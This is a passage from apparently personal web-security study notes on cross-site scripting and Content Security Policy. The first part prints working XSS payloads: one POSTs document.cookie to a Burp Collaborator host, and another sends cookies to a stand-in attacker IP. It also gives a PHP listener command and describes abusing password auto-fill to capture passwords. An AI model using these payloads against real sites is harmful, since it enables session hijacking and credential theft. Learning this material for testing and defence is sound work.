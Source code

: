 > Check [[Session Security#Using Cross Site Scripting (XSS)]] for more payloads.

The idea is to send cookies to an attacker controlled domain, allowing an attacker to steal the user's [[Sessions]].
- Here is using [[Burp Suite]] Collaborator.
```
<script>
fetch('https://ydfa57m120i4eumqf8396fs67xdo1hp6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

To send cookies:
```JavaScript
document.location='our-ip/'+document.cookie
```
To start a listener:
```bash
sudo php -S 0.0.0.0:80
```

###### Password Capturing

Can utilize password managers that auto-fill in password fields by adding a password field that is controlled by the attacker.
- The data in the password field is then sent to an attacker controlled domain.

---
### Content Security Policy (CSP)

This is a browser security mechanism that is used to protect against XSS.
- It restricts the resources that a page can load, such as images and scripts.
- It restricts if pages can be loaded using frames like `iframe`.

If you enable CSP, you can no longer run _any_ scripts that are embedded directly in the HTML document. 
- You can only load external scripts specified by the `script` tag and an external URL. 
- These scripts can only be fetched from the sites specified in the CSP. 
- This prevents an attacker from directly injecting scripts into an HTML document or modifying the HTML document to fetch scripts from the attacker’s domain

For CSP to be enabled, the responses need to contain the [[HTTP]] header `Content-Security-Policy`. 
- The value of this header contains policies, and these are the ones used.
- The policies are a list of directives that are separated by semicolons.

> Not in Firefox.

Some directives that can be used:
- To allow scripts or images to be loaded only from a page with the same origin ([[Same Origin Policy (SOP)]]).
```
script-src 'self'
img-src 'self'
```
